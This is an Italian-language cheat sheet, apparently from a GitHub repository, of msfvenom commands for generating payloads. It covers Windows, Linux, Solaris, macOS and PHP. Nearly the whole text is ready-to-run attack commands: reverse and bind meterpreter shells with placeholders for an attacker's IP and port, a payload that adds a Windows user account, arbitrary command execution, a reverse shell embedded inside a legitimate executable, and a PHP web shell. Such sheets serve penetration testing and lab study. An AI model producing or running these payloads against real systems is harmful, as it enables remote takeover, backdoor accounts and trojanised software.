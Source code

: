 # MSFVENOM

#### Serve per creare shell 
[CheatSheet 1 - MSFVenom ](https://github.com/frizb/MSF-Venom-Cheatsheet)<br>


## Windows

### Reverse Shell
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST={IP Address} LPORT={Porta} -f exe > {nomefile}.exe
```

### Bind Shell
```bash
msfvenom -p windows/meterpreter/bind_tcp RHOST={IP Address} LPORT={Port} -f exe > {nomefile}.exe
```

### Crea un user
```bash
msfvenom -p windows/adduser USER={nome utente} PASS={password} -f exe > {nomefile}.exe
```

### CMD SHELL

```bash
msfvenom -p windows/shell/reverse_tcp LHOST={IP Address} LPORT={Port} -f exe > {nomefile}.exe
```

### Execute Command
```bash
msfvenom -a x86 --platform Windows -p windows/exec CMD="{comando}" -f exe > {nomefile}.exe
```
{comando} si puo intendere sia powershell specificandolo con "powershell \'{vari comandi}'"  oppure la normale cmd di windows (se avrò voglia vi metto qualche cosa di powershell e cmd di windows)

### Embedded inside executable(unire la shell ad un file)
```bash
msfvenom -p windows/shell_reverse_tcp LHOST={IP} LPORT={PORT} -x {path eseguibile che vuoi unire} -f exe -o {nomefile}.exe
```

## Linux

### Reverse Shell
#### x86 
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST={IP} LPORT={Port} -f elf > {nomefile}.elf
```
#### x64
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST={IP} LPORT={Port} -f elf > {nomefile}.elf
```

### BIND SHELL
```bash
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST={IP} LPORT={Port} -f elf > {nomefile}.elf
```

## SunOS(Solaris)
```bash
msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST={IP}  LPORT={Port} -f elf -e x86/shikata_ga_nai -b '\x00' > {nomefile}.elf
```

## MAC

### Reverse Shell
```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST={IP} LPORT={Port} -f macho > {nomefile}.macho
```

### Bind Shell
```bash
msfvenom -p osx/x86/shell_bind_tcp RHOST={IP}  LPORT={Port} -f macho > {nomefile}.macho
```

## Web Based Shell

### PHP
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST={IP}  LPORT={Port}  -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
